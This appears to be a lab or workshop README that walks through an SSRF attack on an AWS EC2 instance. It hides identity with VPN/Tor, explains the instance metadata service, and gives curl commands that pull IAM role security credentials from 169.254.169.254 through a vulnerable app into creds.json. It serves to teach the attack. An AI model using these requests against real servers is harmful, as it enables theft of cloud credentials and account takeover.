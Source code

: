 # The biggest Hack of our lives 🤑🤑🤑:

## Our goal:

![Our goal](./images/Picture%201.png)

## Execution:

### Step 1:

![Hiding our identity](./images/Picture%202.png)

<details>
  <summary>Answer</summary>
  
  ✅ VPN

  ✅ TOR

  Let's try sending a request - here is what we can do:

  ```bash
    export IP=XXXXX
    curl $IP
  ```

</details>




### Step 2:

EC2 instances connect to metadata services to get information about themselves such as:

- what region am I located in?
- what role is attaced to this instance?

![EC2 to Metadata Service](./images/Picture%203.png)

#### How AWS Works:

An EC2 has a role based policy it can use to access an s3 bucket. However, it hasn't been authenticated to use the role yet!

![EC2 to s3](./images/Picture%204.png)

It asks the EC2 metadata service to get the credentials of the role in order to access it.

![EC2 to metadata](./images/Picture%205.png)

Then we can get access to the bucket:

![EC2 to s3 success](./images/Picture%206.png)

What are some ways we can take advantage of this to access the bucket ourselves?

<details>
  <summary>Answer</summary>
  
  ✅ Server Side Request Forgery

  Let's try sending a request - here is what we can do:

Get the metadata:

  ```bash
    curl "http://$IP/?url=http://169.254.169.254/latest/meta-data/"

  ```

Peek into the IAM folder:

```bash
curl "http://$IP/?url=http://169.254.169.254/latest/meta-data/iam/"
```

ooooh.... security credentials:

```bash
curl "http://$IP/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

```bash
curl "http://$IP/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/VulnV1-webServerRole-EuxRuT802MC4" >> creds.json
```


</details>
